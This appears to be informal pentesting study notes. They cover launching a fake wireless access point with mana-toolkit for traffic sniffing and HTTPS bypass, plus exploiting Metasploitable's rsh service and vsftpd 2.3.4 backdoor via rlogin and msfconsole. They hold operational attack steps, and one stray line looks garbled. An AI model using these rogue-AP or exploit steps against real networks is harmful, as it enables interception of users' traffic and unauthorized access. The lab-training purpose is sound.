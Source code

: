 `start-nat-simple.sh`

this command starts fake AP with internet access, use this one

`start-nat-full.sh`

starts fake AP with internet access, and automatically starts sniffing data, bypass http, this fails sometimes

edit mana settings file

`gedit/leafpad /etc/mana-toolkit/hostapd-mama.conf`

change the interface to the interface(wireless) u want to broadcast the signal and ssis to Internet , ssid is the fake access point name
rlogin -l 
edit the start script of the mana-toolkit

`gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`

edit upstream to my nat network interface and phy to the network which will broadcast the network(wireless adapter)

`bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`

if the command fails, run the command again, hopefully it will run

### metasploitable 512 tcp port netkit-rsh info gathering

`apt-get install rsh-client`

`rlogin --help`

`rlogin -l root <target ip>`

### metasploiutable 21 tcp vsftpd v2.3.4 info gathering with back door

search - vsftpd 2.3.4 exploits

`msfconsole`

runs the metasploitable console

`help`

shows help

`show <something>`

something can be exploits, payloads, auxiliaries or options

`use <something>`

use a certain exploit, payload or auxiliary

`set <option> <value>`

configure option to have a value

`exploit`
